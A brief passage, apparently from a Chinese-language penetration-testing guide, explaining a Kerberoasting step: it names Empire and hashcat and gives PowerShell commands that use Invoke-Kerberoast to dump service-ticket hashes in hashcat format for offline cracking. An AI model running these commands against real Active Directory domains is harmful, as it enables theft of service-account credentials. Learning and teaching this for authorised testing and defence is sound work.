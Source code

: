 ![](vx_images/1719026175947.png)

### 5.4.3 hash 破解法

需要工具

- Empire 工具集: [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)
- hashcat: [https://hashcat.net/hashcat/](https://hashcat.net/hashcat/)

1. 使用`Invoke-Kerberoast.ps1`获取 hash 值:

```
import-module Invoke-kerberoast.ps1
Invoke-kerberoast -outputformat hashcat
```

这里的 outputformat 参数可以指定输出的格式，可选 John the Ripper 和 hashcat 两种格式, 输出内容如下:

![](vx_images/1296435171701.png)
